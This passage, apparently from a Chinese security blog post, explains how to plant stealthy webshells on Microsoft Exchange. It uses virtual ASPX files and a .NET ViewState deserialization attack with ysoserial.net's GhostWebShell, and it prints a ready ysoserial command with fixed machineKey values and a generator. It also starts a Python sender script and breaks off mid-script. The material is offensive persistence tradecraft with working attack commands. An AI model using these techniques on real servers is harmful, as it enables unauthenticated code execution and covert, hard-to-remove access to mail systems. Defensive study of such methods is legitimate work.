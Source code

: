**注：**

代码来自https://kernel32.org/posts/evading-anti-virus-by-using-dynamic-code-generation-and-reflection/

在Exchange上进行如下测试：

保存位置：`%ExchangeInstallPath%\FrontEnd\HttpProxy\owa\auth\test1.aspx`

访问url:`https://<url>/owa/auth/test1.aspx/deferred.aspx`，返回结果:`Compiled on the fly :)`，虚拟文件被成功访问

**注：**

虚拟文件的可访问路径为:`https://<url>/owa/auth/test1.aspx/<任意字符>`

创建虚拟文件时，会在临时目录下产生编译文件，默认位置：`C:\Windows\Microsoft.NET\Framework64|Framework\<version>\Temporary ASP.NET Files\owa\<hash1>\<hash2>\`

文件名称：`test1.aspx.<hash3>.compiled`

如果删除原文件test1.aspx，那么虚拟文件也随之失效，无法访问

通过这种方式实现的Webshell，虽然能够隐藏真实的文件内容，但是需要依赖文件，容易被清除，隐蔽性不够

而利用[ysoserial.net](https://github.com/pwntester/ysoserial.net)的[GhostWebShell.cs](https://github.com/pwntester/ysoserial.net/blob/master/ExploitClass/GhostWebShell.cs)恰恰能够解决这个问题，提高隐蔽性。

## 0x03 DotNet反序列化的利用
---

参考代码：

https://github.com/pwntester/ysoserial.net/blob/master/ExploitClass/GhostWebShell.cs

测试环境：

获得了Exchange文件读写权限，能够修改`%ExchangeInstallPath%\FrontEnd\HttpProxy\owa\web.config`和`%ExchangeInstallPath%\FrontEnd\HttpProxy\ecp\web.config`，设置machineKey的内容如下：

`<machineKey validationKey="CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF" decryptionKey="E9D2490BD0075B51D1BA5288514514AF" validation="SHA1" decryption="3DES" />`

对于这两个位置的.Net反序列化命令执行，不再需要合法用户的凭据

这里选择`%ExchangeInstallPath%\FrontEnd\HttpProxy\owa\auth\errorFE.aspx`，对应的generator为`042A94E8`

使用[ysoserial.net](https://github.com/pwntester/ysoserial.net)生成ViewState的参数如下：

```
ysoserial.exe -p ViewState -g ActivitySurrogateSelectorFromFile -f LosFormatter -c "ghostfile.cs;System.Web.dll;System.dll;" --validationalg="SHA1" --validationkey="CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF" --generator="042A94E8"
```

使用如下代码发送ViewState：

```
# encoding: UTF-8
import requests
import re
import sys
import os
import json
import urllib3
urllib3.disable_warnings()

from urllib.parse import quote
import urllib.parse

if __name__ == '__main__':
    if len(sys.argv)!=4:
        note = '''
Usage:
    <url> <key> <path>
```